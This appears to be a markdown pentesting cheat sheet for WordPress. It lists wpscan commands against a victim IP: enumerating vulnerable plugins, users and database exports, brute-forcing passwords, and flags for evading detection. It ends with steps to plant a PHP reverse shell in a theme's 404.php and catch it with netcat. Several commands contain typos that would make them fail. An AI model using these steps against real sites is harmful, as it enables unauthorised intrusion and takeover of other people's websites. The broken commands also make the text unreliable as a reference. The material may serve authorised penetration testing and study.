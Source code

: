 ### wpscan 

#### update wpscan 
- wpscna update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan -url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan -url http://[victim_ip] -P wordlist.txt threads 50
#### Username Bruteforce
- wprscan -url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate p
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u

----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [ip]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


